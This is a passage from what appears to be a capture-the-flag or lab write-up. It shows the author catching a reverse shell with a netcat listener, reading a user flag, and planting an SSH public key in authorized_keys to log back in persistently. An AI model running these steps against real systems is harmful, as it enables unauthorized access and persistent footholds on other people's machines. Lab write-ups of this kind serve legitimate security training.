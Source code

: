 I got the shell connection and used it to read the first flag. 

```
$ nc -lkvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.110.220 44328
/bin/sh: 0: can't access tty; job control turned off

$ ls
api.py
api-up.sh
books.db
try-harder
user.txt

$ cat user.txt
REDACTED
```

I copied my public ssh key to the server.

```bash
$ nc -lkvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.40.118 48778
/bin/sh: 0: can't access tty; job control turned off

$ mkdir .ssh

$ echo "SSH PUBLIC KEY" > ~/.ssh/authorized_keys

$ chmod 700 .ssh

$ chmod 600 ~/.ssh/authorized_keys
```

And then used it to connect back to the server with ssh.

```bash
$ ssh sid@target
Warning: Permanently added the ECDSA host key for IP address '10.10.40.118' to the list of known hosts.
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-112-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Jul  4 05:50:10 IST 2021

  System load:  0.0               Processes:           94
  Usage of /:   33.9% of 7.81GB   Users logged in:     0
  Memory usage: 19%               IP address for eth0: 10.10.40.118
  Swap usage:   0%


71 packages can be updated.
51 updates are security updates.


Last login: Tue Oct 20 03:16:41 2020 from 192.168.1.6
```
